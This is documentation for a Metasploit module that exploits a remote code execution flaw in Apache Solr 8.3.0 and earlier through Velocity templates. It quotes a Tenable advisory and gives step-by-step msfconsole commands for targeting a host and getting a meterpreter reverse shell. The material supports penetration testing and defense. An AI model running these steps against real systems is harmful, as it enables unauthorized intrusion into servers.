 ## Description
This module exploits a vulnerability in Apache Solr <= 8.3.0 which allows remote code execution via a custom
Velocity template. Currently, this module only supports Solr basic authentication.

**From the Tenable advisory**

Link: https://www.tenable.com/blog/apache-solr-vulnerable-to-remote-code-execution-zero-day-vulnerability

An attacker could target a vulnerable Apache Solr instance by first
identifying a list of Solr core names. Once the core names have been
identified, an attacker can send a specially crafted HTTP POST request
to the Config API to toggle the params resource loader value for the
Velocity Response Writer in the solrconfig.xml file to true. Enabling
this parameter would allow an attacker to use the Velocity template
parameter in a specially crafted Solr request, leading to RCE.

## Vulnerable Applications

Apache Solr <= 8.3.0

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/solr_velocity_rce`
3. `set RHOST <target_ip>`
4. `set RPORT <target_port>`
5. `set USERNAME <username>` (if applicable)
6. `set PASSWORD <password>` (if applicable)
7. Ideally run `check`
8. `set TARGET` based on output of `check`
9. `set PAYLOAD <payload_name>` if you want to use other payloads
10. `set LHOST <your_ip>`
11. `set LPORT <your_port>`
12. Optional: `set VERBOSE true` to get verbose output
13. Optional: `set TARGETURI <path_to_solr>` if target system uses a different path to Apache Solr
14. `exploit` and let the shells rain

## Considerations

Privileges gained are dependent on the user running Solr. Currently,
this module only supports basic auth.

Windows systems have 3 targets:
1. x86/64 Windows PowerShell: Uses `PowerShell` to get a shell. Payload defaults to `windows/meterpreter/reverse_tcp`
2. x86/64 Windows CmdStager: Uses `CmdStager` to get a shell. Payload defaults to `windows/meterpreter/reverse_tcp`
3. Windows Exec: Executes a command and returns the output. Payload defaults to `cmd/windows/generic`
